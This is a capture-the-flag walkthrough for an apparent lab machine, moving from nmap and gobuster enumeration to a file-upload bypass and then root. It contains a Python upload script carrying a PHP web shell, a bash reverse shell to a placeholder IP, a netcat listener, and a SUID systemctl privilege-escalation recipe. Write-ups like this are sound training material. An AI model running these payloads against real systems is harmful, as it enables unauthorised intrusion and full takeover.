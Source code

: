 # 1. Reconnaissance and Initial Enumeration

## Step 1.1: Nmap Scan
Use nmap to scan the target machine for open ports and services:

`nmap -sC -sV -oN nmap_scan <target_ip>`
	-sC: Runs default scripts.
	-sV: Version detection.
	-oN: Outputs the results to a file (nmap_scan)

## Step 1.2: Analyze the Results
	From the scan, look for:

	HTTP services: A web server may be running on port 80 or another port.
	Other important services like FTP, SSH, or SMB.

# 2. Web Application Enumeration
	Assume we found an HTTP service running on port 3333. Let’s explore the web application.

## Step 2.1: Directory Enumeration
	Use a tool like Gobuster to discover hidden directories or files:
	`gobuster dir -u http://<target_ip>:3333 -w /path/to/wordlist`
	Look for pages like `/internal/` that might contain important resources, such as an upload page

## Step 2.2: Interact with the Web Application	
	Visit `http://<target_ip>:3333/internal/` and inspect the upload functionality:
	Check if there are restrictions on what types of files can be uploaded.

# 3. Bypassing File Upload Restrictions
	I found the upload page (/internal/). The next step is to figure out which file types are allowed.

## Step 3.1: Test Various File Extensions
	Using Python, automate the testing of different file extensions to see which ones the server accepts and processes.
	Python script to automate the upload:

```
import requests

# Target URL (upload page)
url = "http://<target_ip>:3333/internal/"

# List of file extensions to test
extensions = ['php', 'php3', 'php4', 'php5', 'phtml']

# Define the file to upload
test_file_content = "File uploaded"
filename = "test"

# Loop through each extension
for ext in extensions:
    if ext == "phtml":
        file_content = '<?php system($_GET["cmd"]); ?>'  # Simple PHP shell
    else:
        file_content = test_file_content

    print(f"[*] Trying to upload {filename}.{ext}")

    # Create the file name with the current extension
    file_to_upload = (f"{filename}.{ext}", file_content, 'application/octet-stream')
    files = {'file': file_to_upload}

    # Send POST request to upload the file
    response = requests.post(url, files=files)

    # Check if upload was successful
    if response.status_code == 200:
        print(f"[+] {filename}.{ext} uploaded successfully!")
    else:
        print(f"[-] Failed to upload {filename}.{ext}") 
```        
	From testing, .phtml was accepted and executed, making it the valid extension.

# 4. Exploiting the Upload with a Reverse Shell
	Now that we know the .phtml extension works, use it to upload a reverse shell.

## Step 4.1: Modify the Python Script to Upload a Reverse Shell
	Modify the script to upload a reverse shell instead of a basic PHP file.

```
reverse_shell = """<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<your-ip>/<your-port> 0>&1'");
?>"""

# Only upload the reverse shell if phtml is accepted
if ext == "phtml":
    file_content = reverse_shell
    print(f"[*] Uploading reverse shell as {filename}.{ext}")
```

## Step 4.2: Set up a Netcat Listener  
	On your local machine, start a listener to catch the reverse shell:
	`nc -lvnp 4444`  
the command nc -lvnp, each option stands for the following:
```
-l: Listen mode. This tells Netcat to listen for incoming connections instead of initiating a connection.
-v: Verbose. This option makes Netcat provide more detailed output about what it’s doing.
-n: No DNS. This prevents Netcat from performing DNS lookups on IP addresses, which can speed up the connection process.
-p: Port. This specifies the port number on which Netcat should listen for incoming connections.
```
## Step 4.3: Trigger the Reverse Shell
	After the reverse shell is uploaded to `http://<target_ip>:3333/internal/uploads/test-revshell.phtml`, visit the URL to trigger it.
	You should receive a shell back in your Netcat listener.

# 5. Post-Exploitation and Enumeration	
	Once we have a reverse shell, start enumerating the system for further exploitation.

## Step 5.1: Stabilize the Shell
	To make the reverse shell interactive, spawn a TTY:
	`python3 -c 'import pty; pty.spawn("/bin/bash")'`
	Set the terminal environment:
	`export TERM=xterm`

## Step 5.2: Explore the File System
	Enumerate the target machine for interesting files. You can start by checking the home directories:
	`ls /home/`
 	`ls -al`
  	`cd /home/bill`
   	`getfacl user.txt`
    	`file user.txt`
        `cat user.txt`

## 6. Privilege Escalation
	After gaining access, the next goal is to escalate privileges to root.

# Step 6.1: Check SUID Binaries	
	Use `find` to look for SUID binaries, which run with elevated privileges:
	`find / -perm -4000 -type f 2>/dev/null`
	Some interesting SUID binaries include:

	`/bin/systemctl`
	`/usr/bin/sudo`
	`/usr/bin/pkexec`

## Step 6.2: Exploit /bin/systemctl for Privilege Escalation
	This step I typed each line seperate
	You can exploit `/bin/systemctl` by creating a malicious service that sets the SUID bit on `/bin/bash`.
```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"

[Install]
WantedBy=multi-user.target' > $TF

/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
	After running this, execute:
	`/bin/bash -p`
	This gives you a root shell.

# 7. Accessing Flags
	Once you have root access, you can access protected files, such as:
	Note: Bill's txt file could be read without root priv.
	User flag (/home/bill/user.txt)
	Root flag (/root/root.txt)	

## Conclusion
I started with reconnaissance to identify the open services.
I found an upload vulnerability in the web app, exploited it to upload a reverse shell, and gained access as www-data.
From there, I performed privilege escalation using SUID binaries to become root.
